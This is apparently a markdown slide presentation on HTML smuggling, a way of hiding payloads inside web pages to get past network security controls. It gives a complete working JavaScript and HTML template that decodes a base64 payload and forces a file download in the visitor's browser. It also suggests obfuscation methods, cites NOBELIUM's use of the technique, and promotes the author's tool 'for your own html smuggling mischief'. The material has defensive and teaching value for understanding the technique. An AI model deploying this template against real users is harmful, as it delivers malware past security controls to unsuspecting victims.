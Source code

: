 # HTML Smuggling

The following is my presentation on HTML smuggling, if interested check out my tool [smuggle-me](https://github.com/cyberbutler/smuggle-me) for your own html smuggling mischief.

---
### What is it?
A method for embedding ("smuggling") payloads into Web Pages using HTML/JavaScript to evade network security controls.

---
### How does it work?
---
<!-- slide style="font-size:.7em" -->
Encode the payload and embed into the following
```javascript
var f = atob("{{ b64payload }}");
```

---
<!-- slide style="font-size:.7em" -->
Convert the decoded payload to a byte array
```js

var binaryArray = new Uint8Array(f.length);
for ( let i = 0; i < f.length; i++ ) {
	binaryArray[i] = f.charCodeAt(i)
}

```

---
<!-- slide style="font-size:.7em" -->
Now its time for the file download portion. 

<small>Internet Explorer is *special*. We'll handle that first</small>

```js

if (window.navigator.msSaveBlob) {
	var blob = new Blob([binaryArray]);
	window.navigator.msSaveBlob(blob, "{{ filename }}");
} 
```

IE doesn't support the `File` APIs we will cover next

---
<!-- slide style="font-size:.7em" -->
For everything else, we use the `File` API to generate a ObjectURL and simulate a hyperlink click
```js
else {
	var file = new File([binaryArray], "{{ filename }}", {type: "{{mimetype}}"})
	var a = window.document.createElement("a");
	a.href = window.URL.createObjectURL(file);
	a.download = "{{ filename }}";
	document.body.appendChild(a);
	a.click();
	document.body.removeChild(a);
}
```
`window.URL.createObjectURL` creates a special `blob://` url which points to your file in the browser document's memory.

The `download` attribute will configure the hyperlink to save the file as the specified filename

---
### Put it all together
Embedded into an HTML file
<!-- slide style="font-size:.5em" -->
```html
<!Doctype html>
<html>
	<head></head>
	<body>
		<script>
			var f = atob("{{ b64payload }}");
			
			var binaryArray = new Uint8Array(f.length);
			for ( let i = 0; i < f.length; i++ ) {
				binaryArray[i] = f.charCodeAt(i)
			}
			
			if (window.navigator.msSaveBlob) {
				var blob = new Blob([binaryArray]);
				window.navigator.msSaveBlob(blob, "{{ filename }}");
			} else {
				var file = new File([binaryArray], "{{ filename }}", {type: "{{mimetype}}"})
				var a = window.document.createElement("a");
				a.href = window.URL.createObjectURL(file);
				a.download = "{{ filename }}";
				document.body.appendChild(a);
				a.click();
				document.body.removeChild(a);
			}
		</script>
	</body>
</html>
```

---
### Obfuscate it
- Additional Encoding
- Encryption
	- Environmental Keying
- JavaScript packers/minifiers/obfuscators
	- https://obfuscator.io/
	- https://webpack.js.org/

---
### In The Wild
[NOBELIUM](https://www.microsoft.com/en-us/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/)

![[Pasted image 20221102101157.png]]

---
### Lets try it

---
### Resources
<!-- slide style="font-size:.7em" -->
- https://www.microsoft.com/en-us/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/
- https://outflank.nl/blog/2018/08/14/html-smuggling-explained/
- https://github.com/nccgroup/demiguise
- https://github.com/cyberbutler/smuggle-me
